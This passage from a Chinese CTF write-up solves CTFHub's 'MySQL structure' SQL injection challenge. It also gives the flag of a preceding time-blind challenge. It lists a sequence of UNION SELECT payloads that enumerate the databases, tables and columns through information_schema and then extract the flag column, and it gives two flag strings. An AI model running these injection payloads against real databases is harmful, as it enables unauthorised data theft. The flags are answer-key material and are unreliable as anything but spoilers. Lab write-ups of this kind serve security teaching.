 ![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/时间盲注/1.png)

提交`ctfhub{661f441db8300ee13ac86d2b}`即可。

------

#### MySQL结构

输入1试试？输入1后有俩行回显：一行`ID`一行`Data`。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/1.png)

`union select`可以进行联合查询，`id=-1`表示一个不存在的`id`，`group_concat()`把产生的同一分组中的值用`,`连接形成一个字符串，`information_schema.schemata`表示`information_schema`库中的一个表名为`schemata`的表，可以在输入框输入以下代码查询所有数据库：

```sql
-1 union select 1,group_concat(schema_name) from information_schema.schemata
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/2.png)

`database()`回显当前连接的数据库，用以下代码可以查询到当前数据库为`sqli`：

```bash
-1 union select 1,database()
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/3.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，输入以下代码能够查询到指定数据库的表信息：

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema="sqli"
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/4.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，上图查询到有个表叫`dmyireyrij`，我们可以去查询该表的列信息：

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name="dmyireyrij"
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/5.png)

上图查询到表`dmyireyrij`中有个列叫`wqnbddiwzu`，最后输入以下代码根据`flag`字段可以查询到该字段的数据：

```sql
-1 union select 1,group_concat(wqnbddiwzu) from sqli.dmyireyrij
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/6.png)

提交`ctfhub{a251a62c47aa8b3c139cf2e4}`即可。

